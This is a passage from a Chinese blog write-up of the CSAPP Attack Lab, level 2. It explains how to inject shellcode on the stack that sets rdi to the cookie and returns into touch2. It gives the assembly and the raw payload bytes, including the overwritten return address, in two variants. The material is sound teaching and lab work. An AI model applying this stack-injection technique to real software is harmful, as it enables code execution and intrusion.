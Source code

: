 #### 已知cookie再写入

在`cookie.txt`里面就有cookie的值，我们只要把这个值赋给rdi就可。

```
movq $0x59b997fa, %rdi
pushq $0x004017ec
retq
```

因为是AT&T语法，所以可以直接用`gcc -c`编译出未链接文件，然后我们objdump一下就可以看到对应的shellcode了。

`ret`命令相当于一个`pop rip`，将`rip`指向了`0x4017ec`，即调用了`touch2`。


但是直接写shellcode得能执行啊，怎么让它执行？把rbp的值写成shellcode在栈上的地址。

这里又有一个小细节：**字符串在栈里面通过push写入的话要翻转顺序，而shellcode需要正序写入。**前面要写hello world的shellcode，字符串是反向写入的，因为我们读字符串自然是从低地址到高地址的。而shellcode就直接写就完事了。

所以我们需要获取栈的地址。那我们用gdb调一调就可以找到字符串的地址了：

{% qnimg CSAPP-Attack-Lab-Writeup/level2.png %}

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

{% qnimg CSAPP-Attack-Lab-Writeup/success2.png %}

#### 从程序中真正获取cookie的值

可以用汇编来获取地址的值，比如这样写：

```
movq $0x006044e4, %rdi
movq (%rdi), %rdi
pushq $0x004017ec
retq
```

这样就算cookie是个随机数，也能跳转，比较普适。

```
48 c7 c7 e4 44 60 00 48
8b 3f 68 ec 17 40 00 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

{% qnimg CSAPP-Attack-Lab-Writeup/success22.png %}

Jan 17 upd：第二种shellcode的汇编也可以这样写：

